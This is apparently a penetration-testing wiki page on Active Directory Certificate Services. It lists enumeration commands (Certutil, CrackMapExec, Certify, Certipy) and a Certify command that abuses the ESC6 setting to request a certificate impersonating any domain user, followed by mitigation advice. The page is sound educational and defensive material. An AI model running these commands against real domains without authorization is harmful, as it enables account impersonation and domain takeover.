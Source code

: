 # AD CS

Active Directory Certificate Services (AD CS) is a feature of Active Directory that allows a desginated server to issue certificates. This assists in helping environments leverage and deploy the security advantages of using certificate-based authentication.

For a way more well explained blog on exploiting AD CS, I highly recommend checking out [SpecterOps' article](https://posts.specterops.io/certified-pre-owned-d95910965cd2).&#x20;

## Enumerate AD CS

If we get a hit from these methods then we can browse to the host identified with the  following URL: `http://localhost/certsrv/`

### Certutil

Dump and display certification authority information with Certutil.exe. This utility can be used to quickly identify if there is a certificate authority on the domain for AD CS attacks:

```
Certutil -ping
Certutil.exe -tcainfo
```

### CrackMapExec

```bash
crackmapexec smb $ip -u $username -p $password -M adcs
```

### Certify

When dealing with AD CS, [Ceritfy](https://github.com/GhostPack/Certify) and [Certipy](https://github.com/ly4k/Certipy) are going to be your best friends.&#x20;

```bash
# Identify and list vulnerable templates with Certipy
certipy find -u $username -p $password -dc-ip $dcip -vulnerable

# Identify and list vulnerable templates with Certify
Certify.exe find /vulnerable
```

## Exploitation

The following section builds off of several available repositories that are referenced at the bottom of this page. There are multiple ways to exploit vulnerable certificate templates so I highly recommend searching through red team wikis and blogs to find one that may be specific for your use case.&#x20;

#### EDITF\_ATTRIBUTESUBJECTALTNAME2 (ESC6)

> If this attribute is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.

The above quote from Microsoft in attacker-speak means that we can then enroll in **any** template configured for domain authentication that also allows unprivileged users to enroll. This would allow the attacker to obtain a certificate that then allows them to authenticate as any user/machine on the domain.&#x20;

{% hint style="info" %}
This setting is disablesd by default.&#x20;
{% endhint %}

This setting, like many others in this section can be discovered and exploited #through using [Certify](https://github.com/GhostPack/Certify).&#x20;

```bash
# Find all enabled certificate templates:
Certify.exe find

# Abuse a cerificate with this setting configured 
Certify.exe request /ca:CA01.oasis.local\CorpCA /template:User /altname:$impersonateuser
```

## Mitigation

One of the easiest ways to assist in detecting exploitation of AD CS is to enable Certificate Authority logging. By default, AD CS does not enable logging by default, which in the case of an incident will prevent an organization from responding to an incident. This can be easily remediated:

```bash
# Enable CA Logging
certutil.exe -setreg CA\AuditFilter 127

```

Additionally, it is recommended to perform regular auditing with tools such as PSPKIAudit to detect vulnerable certificate templates:

{% embed url="https://github.com/GhostPack/PSPKIAudit" %}

## References

{% embed url="https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse" %}

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn786426(v=ws.11)" %}

{% embed url="https://www.jumpsec.com/wp-content/uploads/sites/6/2022/02/Active-Directory-Certificate-Service-Defensive-Guidance-v1.pdf" %}

{% embed url="https://www.riskinsight-wavestone.com/en/2021/06/microsoft-adcs-abusing-pki-in-active-directory-environment/" %}
